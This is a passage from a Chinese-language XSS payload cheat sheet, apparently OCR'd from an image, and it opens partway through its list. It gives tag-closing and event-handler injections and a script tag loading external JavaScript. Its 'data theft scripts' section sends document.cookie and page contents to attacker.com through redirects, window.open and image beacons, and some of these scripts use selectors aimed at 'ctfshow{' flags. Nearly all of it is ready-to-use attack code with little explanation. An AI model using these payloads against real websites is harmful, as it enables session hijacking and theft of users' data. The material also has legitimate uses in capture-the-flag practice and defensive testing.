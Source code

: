 #### 1.2 闭合标签
```html
'><script>alert('XSS')</script>
"><script>alert('XSS')</script>
```

#### 1.3 事件处理器
```html
<img src=x onerror=alert('XSS')>
<div onmouseover="alert('XSS')">hover me</div>
```

### 2. 高级攻击脚本

#### 2.1 基础脚本标签
```html
<!-> 基本弹窗 -->
<script>alert("hello")</script>   <!-> 弹出hello -->
<script>alert(/hello/)</script>   <!-> 弹出hello -->
<script>alert(1)</script>        <!-> 弹出1,对于数字可以不用引号 -->
<script>alert(document.cookie)</script>      <!-> 弹出cookie -->
<script src=http://xxx.com/xss.js></script>  <!-> 引用外部的xss -->
```

#### 2.2 数据窃取脚本
```html
<!-> 使用 window.location.href -->
<script>window.location.href="http://attacker.com/collect?cookie="+document.cookie</script>

<!-> 使用 document.location.href -->
<script>document.location.href="http://attacker.com/collect?cookie="+document.cookie</script>

<!-> 使用 window.open -->
<script>window.open="http://attacker.com/collect?cookie="+document.cookie</script>

<!-> 获取特定元素内容 -->
<script>window.location.href="http://attacker.com/collect?data="+document.getElementsByClassName('target-class')[0].innerHTML</script>

<!-> 使用 jQuery 选择器 -->
<script>$('div.layui-table-cell.laytable-cell-1-0-1').each(function(index,value){
    if(value.innerHTML.indexOf('ctfshow{')>-1){
        window.location.href='http://attacker.com/'+value.innerHTML;
    }
});</script>

<!-> 使用 jQuery 选择器（带过滤） -->
<script>$('div.layui-table-cell.laytable-cell-1-0-1').each(function (index, value) {
    if ((value.innerHTML.indexOf('ctfshow{') > -1)&&(value.innerHTML.indexOf('script') === -1)) {
        window.location.href = 'http://attacker.com/' +value.innerHTML;
    }
});</script>

<!-> 使用 querySelector -->
<script>var img = new Image();
img.src = "http://attacker.com/"+document.querySelector('#top > div.layui-container > div:nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent;
document.body.append(img);</script>
```
